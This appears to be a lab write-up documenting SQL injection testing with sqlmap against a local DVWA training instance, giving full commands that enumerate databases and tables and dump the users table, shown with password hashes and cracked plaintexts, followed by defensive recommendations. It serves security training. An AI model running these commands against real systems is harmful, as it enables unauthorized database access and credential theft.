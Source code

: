 # SQLMap Penetration Testing Documentation

## Overview

This document contains details about the SQL injection testing performed on the target application, steps taken, commands executed, and results obtained.

## Prerequisites

- **Target**: http://192.168.1.7/dvwa
- **Tools Used**: SQLMap
- **Setup**:
  - DVWA running on a local environment.
  - Security level set to `low`.

## Step 1: Identify Vulnerabilities

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --dbs
```

### Results:

- Identified injectable parameter: `id`.
- Databases discovered:
  - `dvwa`
  - `information_schema`

---

## Step 2: Select Target Database

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa --tables
```

### Results:

- Tables in `dvwa` database:
  - `guestbook`
  - `users`

---

## Step 3: Dump Table Data

### Dumping `users` Table

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --columns
```

#### Results:

- Columns in `users` table:
  - `user_id`
  - `first_name`
  - `last_name`
  - `user`
  - `password`

---

### Dumping User Credentials

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --dump
```

#### Results:

- Extracted Data:
  | user_id | user | password | (decrypted password) | first_name | last_name |
  |---|---|---|---|---|---|
  | 1 | admin | 21232f297a57a5a743894a0e4a801fc3 | (admin) | admin | admin |
  | 2 | guest | e99a18c428cb38d5f260853678922e03 | (abc123) | Brown | Gordon |
  | 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | (charley) | Me | Hack |
  | 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | (letmein) | Picasso | Pablo |
  | 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | (password) | Smith | Bob |
  | 6 | user | ee11cbb19052e40b07aac0ca060c23ee | (user) | user | user |

---

## Step 4: Test Other Parameters

#### Testing All Parameters:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --crawl=3 --batch
```

### Results:

- Additional vulnerabilities found in `guestbook` table:
  - Columns dumped successfully.

---

## Recommendations

1. Implement input validation to prevent SQL injection.
2. Use parameterized queries or prepared statements.
3. Restrict database user privileges.
4. Regularly update and patch web applications and database management systems.
5. Utilize a Web Application Firewall (WAF) to detect and block SQL injection attempts.
